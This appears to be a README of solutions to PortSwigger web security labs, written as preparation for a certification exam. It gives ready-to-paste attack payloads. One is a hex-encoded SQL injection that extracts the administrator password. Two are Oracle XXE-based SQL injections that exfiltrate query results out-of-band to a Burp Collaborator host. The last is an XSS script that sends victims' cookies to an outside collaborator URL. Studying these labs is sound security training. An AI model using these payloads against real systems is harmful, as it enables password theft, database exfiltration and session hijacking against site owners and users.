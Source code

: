 "These labs have been selected because they reinforce core web security testing skills - such as understanding encodings and using them to evade defences, and proficiency in exploiting cross-user attacks. These specific labs support your exam preparation in terms of skill development, but they are in no way a list of the components you'll be expected to solve to complete the exam."

# Lab: SQL injection with filter bypass via XML encoding
You will need [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) Burp Suite Extension
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
      <productId>
        2
      </productId>
    <storeId>
      <@hex_entities>
        1 union select password from users where username='administrator' 
      <@/hex_entities>
    </storeId>
  </stockCheck>
```

# Lab: Blind SQL injection with out-of-band data exfiltration
### Identify vulnerability:
```sql
aaxaxa'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://x.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
```
Control + U for URL Encoding and SEND

### Data exfiltration
```sql
'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select QUERY HERE')||'.x.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--
```
Control + U for URL Encoding and SEND

# Lab: Exploiting cross-site scripting to steal cookies 
A simulated victim user views all comments after they are posted.<br>
Write this payload into comment section:
```js
<script> document.location = "http://<BURP-COLLABORATOR>/?" + document.cookie </script>
```
